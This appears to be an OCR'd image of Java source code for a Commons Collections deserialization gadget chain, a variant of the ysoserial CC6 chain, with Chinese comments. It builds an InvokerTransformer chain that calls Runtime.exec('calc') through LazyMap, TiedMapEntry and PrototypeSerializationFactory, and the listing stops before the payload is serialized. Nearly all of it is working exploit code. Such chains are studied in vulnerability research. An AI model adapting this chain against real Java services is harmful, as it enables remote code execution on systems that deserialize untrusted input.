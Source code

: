 ```text
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6_plus_plus {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        //仿照ysoserial中的写法，防止在本地调试的时候触发命令
        Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"}),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(faketransformers);
        Map innerMap = new HashMap();
        Map outMap = LazyMap.decorate(innerMap, transformerChain);

        //实例化
        TiedMapEntry tme = new TiedMapEntry(outMap, "key");
        Map expMap = new HashMap();
        //将其作为key键传入
        expMap.put(tme, "value");

        //remove
        outMap.remove("key");

        //传入利用链
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        Class c;
        c = Class.forName("org.apache.commons.collections.functors.PrototypeFactory$PrototypeSerializationFactory");
        Constructor constructor = c.getDeclaredConstructor(Serializable.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(expMap);

        FactoryTransformer factoryTransformer = new FactoryTransformer((Factory) o);

        ConstantTransformer constantTransformer = new ConstantTransformer(1);

```